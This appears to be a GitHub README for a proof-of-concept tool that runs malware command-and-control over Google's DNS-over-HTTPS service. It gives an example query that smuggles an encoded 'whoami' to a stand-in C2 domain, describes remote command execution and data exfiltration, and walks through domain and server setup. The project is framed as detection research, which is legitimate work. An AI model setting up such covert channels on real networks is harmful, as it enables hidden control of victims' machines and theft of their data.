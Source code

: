 # Dns-over-HTTPS-DOH
This project provides a proof-of-concept implementation of a Command and Control (C2) infrastructure using DNS over HTTPS (DoH). 
DoH C2 allows for covert communication between the C2 server and the infected client machines by leveraging encrypted DNS queries
thereby making the traffic appear legitimate and harder to detect by traditional network monitoring tools.

# Architecture
![image](https://github.com/user-attachments/assets/e0e0c705-e5a2-4934-b265-f70e39ca668b)  

The python program on the client side sends HTTPS request (TCP/443) to DoH Server to resolve a destination domain where the c2 is hosted, e.g send.example.com.co using a  the legit DOH server, json query like https[:]//dns.google.com/resolve?name=google.com &type=TXT  
An attacker can use the part which is between the name and ‘&’ to inject txt record which is not bigger than 512 bytes of size e.g https[:]//dns.google.com/resolve?name=SINGLE-1-K5EE6QKNJEFA====.send.example.com.co&type=TXT  
'**SINGLE-1-K5EE6QKNJEFA====**' is base32 encoded query (K5EE6QKNJEFA====  is basically WHOAMI
) send.example.com.co => the DNS c2 server.  
The google.com is instructed to query the send.example.com.co DNS server for the TXT record.  
The DNS server send.example.com.co then returns back txt record in which instructions are send what the client needs to perform next. Bellow is example it the answer section of the response are the instructions the client/malware will execute.  

# Testing and Limitations
This project is intended for educational purposes and authorized security research only. 
Bypassing antivirus software or other security measures is not within the scope of this project. 
It is designed for testing in controlled environments to demonstrate the feasibility and mechanics of using DoH for C2 communication **to test enterprise corporate forward proxy detection and improve any custom build signatures in SIEMs.**

# Features
**Covert Communication**: Utilizes DoH to encode and disguise C2 traffic.

**Command Execution**: Supports remote execution of commands on infected Linux clients.

**Data Exfiltration**: Allows for exfiltration of data through DOH queries.

**Server and Client Implementation**: Includes both C2 server and client components.  

Only google DoH is used.  

# Scenario 1 - Using Public DoH Server
![image](https://github.com/user-attachments/assets/d26b3309-d164-4344-8dcb-94c10e7e6291)

# Initial setup
For client side, linux is recommended but the code was tested on Windows 10 and seem to worked :)  
For server side linux.  

**1. Client Side**  
    Install Python >=3.8 from the official website or your package manager.  
     Install the requests library using pip:    
     **pip install requests**
**2. Server side** only Linux  
    Install the dnslib library using pip
    **pip install dnslib**  

**3. Register domain**  
Example purchasing domain using namecheap.com
![grafik](https://github.com/user-attachments/assets/26f16ed6-1a45-4b1c-8ddc-cac2287eba24)

Follow instructions on the screenshot bellow to setup the NameServer.
Replace the IP and domainname with your purchased domain and server Public IP
![grafik](https://github.com/user-attachments/assets/c9e9f4cf-ac77-4b31-b92d-7bfe28ed93e9)

# Usage
**1. Client side**  

Make sure to change the bellow in the "doh_client.py" to the domain registered in step 3.  

if __name__ == "__main__":
    domain_name = "send.examples.com.co"  # Replace after '**send**' with your domain
    execute_command_from_dns(domain_name)

      
python3 doh_client.py  
Example run 
![grafik](https://github.com/user-attachments/assets/ff8f6724-9985-4411-87f0-7435cad4ad7f)


**2. Server side**  

Make sure to change the IP in the "doh_server.py"  

class DNSDoHServer:
    def __init__(self, host='YOURIP', port=53): # Replace with Your public IP


Example run:
![grafik](https://github.com/user-attachments/assets/dec32aca-60b0-415a-a616-49c14a21906b)

Note instead of the  examples.com.co you should use your domain name  
Run: python3 doh_server.py


# Detection Tips TODO
